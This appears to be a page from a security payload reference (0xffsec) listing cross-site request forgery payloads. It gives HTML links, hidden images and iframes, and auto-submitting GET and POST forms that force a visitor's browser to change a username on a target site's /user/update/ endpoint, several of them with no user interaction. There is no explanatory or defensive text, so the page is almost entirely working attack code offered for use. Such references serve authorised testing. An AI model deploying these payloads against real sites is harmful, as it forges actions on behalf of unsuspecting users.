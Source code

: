 ## Payloads

### HTML GET - User Interaction

```html
<a href="http://{{< param "war.rdomain" >}}/user/update/?username=0xffsec">Click Here!</a>
```

### HTML GET - No Interaction

```html
<img src="http://{{< param "war.rdomain" >}}/user/update/?username=0xffsec">
```

```html
<iframe src="http://{{< param "war.rdomain" >}}/user/update/?username=0xffsec" style="display:none;"></iframe>
```

### FORM GET - No Interaction

```html
<script>history.pushState('', '', '/')</script>
<form id="csrf_form" method="GET" action="http://{{< param "war.rdomain" >}}/user/update/">
    <input type="hidden" name="username" value="0xffsec" />
    <input type="submit" value="Submit" />
</form>
<script>
    document.getElementById("csrf_form").submit();
</script>
```

### FORM POST - User Interaction

```html
<form action="http://{{< param "war.rdomain" >}}/user/update/" enctype="text/plain" method="POST">
    <input name="username" type="hidden" value="0xffsec" />
    <input type="submit" value="Submit" />
</form>
```

### FORM POST - No Interaction

```html
<script>history.pushState('', '', '/')</script>
<form id="csrf_form" action="http://{{< param "war.rdomain" >}}/user/update/" enctype="text/plain" method="POST">
    <input name="username" type="hidden" value="0xffsec" />
</form>
<script>
    document.getElementById("csrf_form").submit();
</script>
```
